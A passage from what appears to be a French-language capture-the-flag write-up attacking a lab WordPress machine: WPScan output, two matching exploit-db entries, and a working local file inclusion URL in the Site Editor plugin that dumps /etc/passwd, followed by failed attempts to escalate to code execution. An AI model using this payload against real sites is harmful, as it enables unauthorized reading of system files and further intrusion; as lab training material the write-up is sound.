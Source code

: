 ```shellsession
 Checking Config Backups - Time: 00:00:00 <===================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <=========================================================================================================================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Nov 17 19:26:46 2022
[+] Requests Done: 126335
[+] Cached Requests: 24
[+] Data Sent: 33.678 MB
[+] Data Received: 34.107 MB
[+] Memory used: 512.668 MB
[+] Elapsed time: 00:03:46
```

Deux des plugins trouvent leur correspondance sur exploit-db :

* [WordPress Plugin Elementor 3.6.2 - Remote Code Execution (RCE) (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50882)

* [WordPress Plugin Site Editor 1.1.1 - Local File Inclusion - PHP webapps Exploit](https://www.exploit-db.com/exploits/44340)

Vu que l'on ne dispose pas d'identifiants pour le Wordpress, la seconde vulnérabilité est celle à tester. Il s'agit vraiment d'une faille d'inclusion toute bête.

J'arrive à dumper `/etc/passwd` avec l'URL suivante :

`http://192.168.56.61:8080/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

On retrouve les deux même utilisateurs quand dans l'épisode précédent :

```
shenron:x:1000:1000:shenron,,,:/home/shenron:/bin/bash
jenny:x:1001:1001::/home/jenny:/bin/bash
```

J'aimerais bien transformer cette LFI en RCE mais toutes les tentatives ont échouée :

* message d'erreur étrange quand on tente d'utiliser les filtres PHP : `didn't load shortcodes pattern file`

* inclusions distantes qui n'aboutissent pas (tentative de bruteforcer les ports egress pour les protos http et ftp sans succès)
